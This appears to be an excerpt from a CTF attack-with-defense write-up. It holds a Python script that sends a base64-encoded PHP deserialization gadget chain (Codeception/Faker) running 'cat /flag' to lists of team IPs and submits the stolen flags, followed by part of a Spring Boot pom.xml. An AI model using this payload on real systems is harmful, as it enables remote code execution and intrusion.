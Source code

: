 ```python
def attack_web2(ip):
    global flag_list
    try:
        url = 'http://' + ip + '/web/index.php?r=fun/test'
        payload = 'TzozMjoiQ29kZWNlcHRpb25cRXh0ZW5zaW9uXFJ1blByb2Nlc3MiOjE6e3M6NDM6IgBDb2RlY2VwdGlvblxFeHRlbnNpb25cUnVuUHJvY2VzcwBwcm9jZXNzZXMiO2E6MTp7aTowO086MjA6IkZha2VyXFZhbGlkR2VuZXJhdG9yIjozOntzOjEyOiIAKgBnZW5lcmF0b3IiO086MjI6IkZha2VyXERlZmF1bHRHZW5lcmF0b3IiOjE6e3M6MTA6IgAqAGRlZmF1bHQiO3M6OToiY2F0IC9mbGFnIjt9czoxMjoiACoAdmFsaWRhdG9yIjtzOjY6InN5c3RlbSI7czoxMzoiACoAbWF4UmV0cmllcyI7czoyOiIxMCI7fX19'
        res = requests.post(url, data={'x': payload}, timeout=3)
        flag = re.findall('(flag\{.*\})', res.text)[0]
        print(ip,flag)
        flag_list.append({'id': 2, 'flag': flag})
    except Exception as e:
        print(e)

if __name__ == '__main__':
    print('-------web1-------')
    ip_list = get_iplist('web1_ip.txt')
    for ip in ip_list:
        attack_web1(ip)

    print('-------web2-------')
    ip_list = get_iplist('web2_ip.txt')
    for ip in ip_list:
        attack_web2(ip)

    print('-------submit flag-------')
    for d in flag_list:
        submit_flag(d['id'], d['flag'])
        time.sleep(7)
```

## web1

pom.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.3.5.RELEASE</version>
        <relativePath/> <!-- lookup parent from repository -->
    </parent>
    <groupId>com.example</groupId>
    <artifactId>awdJaba</artifactId>
    <version>0.0.1-SNAPSHOT</version>
    <name>awdJaba</name>
    <description>awdJaba</description>
    <properties>
        <java.version>1.8</java.version>
    </properties>
    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
```